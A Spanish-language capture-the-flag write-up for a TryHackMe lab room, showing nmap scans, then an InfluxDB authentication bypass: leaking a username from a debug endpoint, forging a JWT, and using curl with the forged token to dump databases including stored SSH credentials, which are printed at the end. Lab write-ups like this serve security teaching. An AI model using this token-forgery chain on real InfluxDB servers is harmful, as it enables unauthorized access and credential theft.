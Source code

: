 https://tryhackme.com/r/room/sweettoothinc
# Fase de reconocimiento
## Buscar puertos abiertos
```
nmap -sS -p- -T5 --min-rate=5000 -vvv -Pn -n 10.10.113.250
```
![[Pasted image 20240625024224.png]]
## Reconocimiento de servicios
```
nmap -sCV -p111,2222,8086,50589 10.10.113.250
```
![[Pasted image 20240625024350.png]]
# Fase de ataque
Encontramos un 0day en InfluxDB reportado que consiste en lo siguiente:
1. Conseguimos el usuario
```
curl -k -X POST http://10.10.113.250:8086/debug/requests
```
![[Pasted image 20240625025931.png]]
2. Generating the token (JWT)
https://jwt.io
![[Pasted image 20240625030322.png]]
Ponemos el usuario y la fecha que no caduque epoch https://www.unixtimestamp.com/index.php?ref=unhackable.lol
3. Mandamos el Token para autenticarnos y hacer queries
```
curl -G -X POST 'http:/10.10.113.250:8086/query' --data-urlencode 'q=show users' -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im81eVk2eXlhIiwiZXhwIjoxNzE5MzU2NDM0fQ.2F_YbVAe08xLx0d6m1HHtiltDCVfQoyO3McKSBpaAF8'
```
![[Pasted image 20240625030713.png]]
```
curl -G -X POST 'http:/10.10.113.250:8086/query?db=tanks' --data-urlencode 'q=SELECT * FROM water_tank' -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im81eVk2eXlhIiwiZXhwIjoxNzE5MzU2NDM0fQ.2F_YbVAe08xLx0d6m1HHtiltDCVfQoyO3McKSBpaAF8' 
```
```
curl -G -X POST 'http:/10.10.113.250:8086/query?db=mixer' --data-urlencode 'q=SELECT MAX(motor_rpm) FROM mixer_stats' -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im81eVk2eXlhIiwiZXhwIjoxNzE5MzU2NDM0fQ.2F_YbVAe08xLx0d6m1HHtiltDCVfQoyO3McKSBpaAF8'
```
```
curl -G -X POST 'http:/10.10.113.250:8086/query?db=creds' --data-urlencode 'q=SELECT * FROM ssh' -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im81eVk2eXlhIiwiZXhwIjoxNzE5MzU2NDM0fQ.2F_YbVAe08xLx0d6m1HHtiltDCVfQoyO3McKSBpaAF8'
```
![[Pasted image 20240625032112.png]]
Tenemos el usuario y contraseña de un usuario

Nos conectamos por ssh
7788764472    uzJk6Ry98d8C